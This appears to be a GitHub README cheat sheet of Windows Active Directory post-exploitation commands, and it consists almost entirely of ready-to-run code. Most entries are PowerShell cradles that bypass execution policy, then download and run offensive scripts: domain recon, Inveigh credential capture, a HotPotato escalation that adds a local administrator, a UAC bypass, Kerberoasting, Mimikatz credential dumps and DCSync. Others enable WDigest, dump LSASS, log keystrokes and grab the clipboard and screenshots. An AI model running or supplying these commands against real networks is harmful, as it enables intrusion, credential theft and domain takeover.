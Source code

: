 ## Table of Contents

- [Domain Recon](#domain\recon)
  - [ShareFinder - Look for shares on network and check access under current user context & Log to file](#ShareFinder\-\Look\for\shares\on\network\and\check\access\under\current\user\context\&\Log\to\file)
  - [Import PowerView Module](#Import\PowerView\Module)
  - [Invoke-BloodHound for domain recon](#Invoke-BloodHound\for\domain\recon)
  - [ADRecon script to generate XLSX file of domain properties](#ADRecon\script\to\generate\XLSX\file\of\domain\properties)
- [Priv Esc](#priv\esc)
  - [PowerUp script](#PowerUp\script)
  - [cPasswords in sysvol](#cPasswords\in\sysvol)
  - [Inveigh](#Inveigh)
    - [Start inveigh using Basic Auth - logging to file](#Start\inveigh\using\Basic\Auth\-\logging\to\file)
    - [Start inveigh in silent mode (no popups)](#Start\inveigh\in\silent\mode\(no\popups))
  - [Invoke-HotPotato Exploit](#Invoke-HotPotato\Exploit)
  - [Bypass UAC and launch PowerShell window as admin](#Bypass\UAC\and\launch\PowerShell\window\as\admin)
  - [Invoke-Kerberoast with Hashcat Output](#Invoke-Kerberoast\with\Hashcat\Output)
- [Reg Keys](#reg\keys)
  - [Enable Wdigest](#Enable\Wdigest)
  - [Check always install elevated](#Check\always\install\elevated)
- [Mimikatz](#mimikatz)
  - [Invoke Mimikatz](#Invoke\Mimikatz)
  - [Import Mimikatz Module](#Import\Mimikatz\Module)
  - [Perform DcSync attack](#Perform\DcSync\attack)
  - [Invoke-MassMimikatz](#Invoke-MassMimikatz)
  - [Manual Procdump for offline mimikatz](#Manual\Procdump\for\offline\mimikatz)
- [Useful Scripts/Commands](#useful\scripts/commands)
  - [Use Windows Debug api to pause live processes](#Use\Windows\Debug\api\to\pause\live\processes)
  - [Import Powersploits invoke-keystrokes](#Import\Powersploits\invoke-keystrokes)
  - [Import Empire's Get-ClipboardContents](#Import\Empire's\Get-ClipboardContents)
  - [Import Get-TimedScreenshot](#Import\Get-TimedScreenshot)
- [Useful Links](#useful\links)
  - [Nmap](#Nmap)
  - [EyeWitness Binary](#EyeWitness\Binary)
  - [Sys InternalTools](#Sys\InternalTools)
  - [List of Binaries that can be used for living off the land techniques](#List\of\Binaries\that\can\be\used\for\living\off\the\land\techniques)
- [Installing CrackMapexec (Linux/Windows)](#installing\crackmapexec\(linux/windows))


```Powershell
# Domain Recon
## ShareFinder - Look for shares on network and check access under current user context & Log to file
powershell.exe -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerView/powerview.ps1');Invoke-ShareFinder -CheckShareAccess|Out-File -FilePath sharefinder.txt"
```
## Import PowerView Module
```

powershell.exe -exec Bypass -noexit -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerView/powerview.ps1')"
```

## Invoke-BloodHound for domain recon
```

powershell.exe -exec Bypass -C "IEX(New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/BloodHoundAD/BloodHound/master/Ingestors/SharpHound.ps1');Invoke-BloodHound"
```

## ADRecon script to generate XLSX file of domain properties
```powershell

powershell.exe -exec Bypass -noexit -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/sense-of-security/ADRecon/master/ADRecon.ps1')"
```


# Priv Esc
## PowerUp script
```powershell

powershell.exe -exec Bypass -C “IEX (New-Object Net.WebClient).DownloadString(‘https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1’);Invoke-AllChecks”
```
## cPasswords in sysvol
```powershell

findstr /S cpassword %logonserver%\sysvol\*.xml
findstr /S cpassword $env:logonserver\sysvol\*.xml
```
## Inveigh
### Start inveigh using Basic Auth - logging to file
```powershell

powershell.exe -exec bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/Kevin-Robertson/Inveigh/master/Inveigh.ps1');Invoke-Inveigh -ConsoleOutput Y –NBNS Y –mDNS Y  –Proxy Y -LogOutput Y -FileOutput Y -HTTPAuth Basic"
```
### Start inveigh in silent mode (no popups)
```powershell

powershell.exe -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/Kevin-Robertson/Inveigh/master/Inveigh.ps1');Invoke-Inveigh -ConsoleOutput Y –NBNS Y –mDNS Y  –Proxy Y -LogOutput Y -FileOutput Y -WPADAuth anonymous"
```

## Invoke-HotPotato Exploit
```powershell

powershell.exe -nop -exec bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/Kevin-Robertson/Tater/master/Tater.ps1');invoke-Tater -Command 'net localgroup Administrators user /add'"
```

## Bypass UAC and launch PowerShell window as admin
```powershell

powershell.exe -exec bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/privesc/Invoke-BypassUAC.ps1');Invoke-BypassUAC -Command 'start powershell.exe'"
```

## Invoke-Kerberoast with Hashcat Output
```powershell

powershell.exe -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1');Invoke-kerberoast -OutputFormat Hashcat"
```
# Reg Keys
## Enable Wdigest
```python
reg add HKLM\SYSTEM\CurrentControlSet\Contro\SecurityProviders\Wdigest /v UseLogonCredential /t Reg_DWORD /d 1 /f
```
## Check always install elevated
```powershell
reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
```

# Mimikatz
## Invoke Mimikatz
```powershell
powershell.exe -exec bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1');Invoke-Mimikatz -DumpCreds"

## Import Mimikatz Module
powershell.exe -exec Bypass -noexit -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')"

## Perform DcSync attack
Invoke-Mimikatz -Command '"lsadump::dcsync /domain:demodomain /user:sqladmin"'

## Invoke-MassMimikatz
powershell.exe -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PewPewPew/Invoke-MassMimikatz.ps1');'$env:COMPUTERNAME'|Invoke-MassMimikatz -Verbose"

## Manual Procdump for offline mimikatz
.\procdump.exe -accepteula -ma lsass.exe lsass.dmp


# Useful Scripts/Commands
## Use Windows Debug api to pause live processes
powershell.exe -nop -exec bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/besimorhino/Pause-Process/master/pause-process.ps1');Pause-Process -ID 1180;UnPause-Process -ID 1180;"

## Import Powersploits invoke-keystrokes
powershell.exe -exec Bypass -noexit -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Get-Keystrokes.ps1')"

## Import Empire's Get-ClipboardContents
powershell.exe -exec Bypass -noexit -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/collection/Get-ClipboardContents.ps1')"

## Import Get-TimedScreenshot
powershell.exe -exec Bypass -noexit -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/obscuresec/PowerShell/master/Get-TimedScreenshot')"


# Useful Links
## Nmap
https://nmap.org/dist/nmap-7.70-win32.zip

## EyeWitness Binary
https://www.christophertruncer.com/InstallMe/EyeWitness.zip

## Sys InternalTools
https://live.sysinternals.com/
https://download.sysinternals.com/files/SysinternalsSuite.zip

## List of Binaries that can be used for living off the land techniques
https://github.com/api0cradle/LOLBAS
```

# Installing CrackMapexec (Linux/Windows)
```bash
apt-get install -y libssl-dev libffi-dev python-dev-is-python3 build-essential

git clone https://github.com/mpgn/CrackMapExec

cd CrackMapExec

poetry install

poetry run crackmapexec
```




